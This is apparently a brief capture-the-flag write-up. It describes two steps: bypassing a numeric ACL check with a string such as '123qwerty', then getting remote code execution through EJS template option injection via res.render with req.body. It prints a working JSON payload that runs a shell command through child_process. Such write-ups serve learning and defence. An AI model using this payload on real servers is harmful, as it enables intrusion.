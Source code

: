# ACL

This challenge had two steps to it:

## Bypassing The ACL Check

We had to bypass the `ACL > 1` check, the easy solution was to send a string that would be parsed by `parseInt()` as a `> 1` number and still be false in (`ACL > 1`) comparison (e.g `"123qwerty"`).

## Getting an RCE

This would be done by injecting evil javascript code to the ejs framework (in the `render()` method) which is enabled by the fact that it's used unsecurly (`res.render('template.ejs', req.body)`) which is mentioned in their `SECURITY.md` document, one obstacle that would occur is that the template would be cached already and the injected code wouldn't actually get run, but that could be resolve by disabling cache, here is the payload:

```json
{
  "cache": false,
  "settings": {
    "view options": {
      "escapeFunction": "console.log;this.global.process.mainModule.require(\"child_process\").execSync(\"touch /tmp/pwned\");",
      "client": "true"
    },
    "view cache": false
  },
  "flag": "ABC"
}
```
